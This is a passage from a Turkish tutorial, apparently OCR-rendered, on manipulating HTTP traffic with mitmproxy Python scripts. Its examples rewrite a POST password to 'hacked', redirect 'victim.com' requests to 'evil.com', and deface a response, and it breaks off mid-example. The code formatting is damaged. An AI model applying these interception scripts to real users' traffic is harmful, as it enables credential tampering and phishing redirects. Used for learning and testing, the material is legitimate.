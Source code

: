 ## Sonuç
MITMProxy ile trafiği durdurmanın ve müdahale etmenin birkaç yolu var:
CLI komutları ile (~i, ~u, ~m kullanarak)
Python betikleri ile belirli istekleri durdurma veya engelleme
Gecikme (delay) veya tamamen engelleme
Mitmweb kullanarak manuel olarak durdurma
\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_
MITMProxy ile Trafik Akışını Modifiye Etme (Manipülasyon)
MITMProxy kullanarak ağ trafiğini istek (request) ve yanıt (response) seviyesinde değiştirebilir, ekleme yapabilir veya belirli kurallar uygulayarak manipüle edebilirsiniz. Bunu yapmanın en yaygın yolu Python betikleri yazmaktır.

1. İstek (Request) Manipülasyonu
Bir HTTP isteğini değiştirmek, yönlendirmek veya manipüle etmek için request(flow) fonksiyonunu kullanabilirsiniz.
**🔹 Örnek 1: HTTP Başlıklarını (Headers) Değiştirme**
Aşağıdaki betik, tüm isteklerin User-Agent başlığını değiştirmektedir:
```python
from mitmproxy import http
```
def request(flow: http.HTTPFlow):
 flow.request.headers["User-Agent"] = "Mozilla/5.0 (X11; Linux x86\_64)"


**🔹 Çalıştırmak için:**
```bash
mitmproxy -s modify\_request.py
```
**🔹 Örnek 2: Gönderilen POST Verisini Değiştirme**
Eğer bir POST isteğinin gönderilen form verisini değiştirmek istiyorsanız:
```python
from mitmproxy import http
```
def request(flow: http.HTTPFlow):
 if flow.request.method == "POST" and "password" in flow.request.text:
 flow.request.text = flow.request.text.replace("password=12345", "password=hacked")
**📌 Bu betik, kullanıcı şifresini değiştirmektedir.**

**🔹 Örnek 3: Bir URL'yi Yönlendirme (Redirect)**
Eğer belirli bir siteye yapılan istekleri başka bir siteye yönlendirmek istiyorsanız:
```python
from mitmproxy import http
```
def request(flow: http.HTTPFlow):
 if "victim.com" in flow.request.pretty\_url:
 flow.request.url = flow.request.url.replace("victim.com", "evil.com")
**📌 Bu betik, "victim.com" adresine giden istekleri "evil.com" adresine yönlendirir.**

2. Yanıt (Response) Manipülasyonu
Bir HTTP yanıtını değiştirmek için response(flow) fonksiyonunu kullanabilirsiniz.
**🔹 Örnek 4: Yanıt İçeriğini Manipüle Etme**
Aşağıdaki betik, belirli bir sitenin yanıtlarını değiştirir:
```python
from mitmproxy import http
```
def response(flow: http.HTTPFlow):
 if "example.com" in flow.request.pretty\_url:
 flow.response.text = "# Hacked by MITMProxy
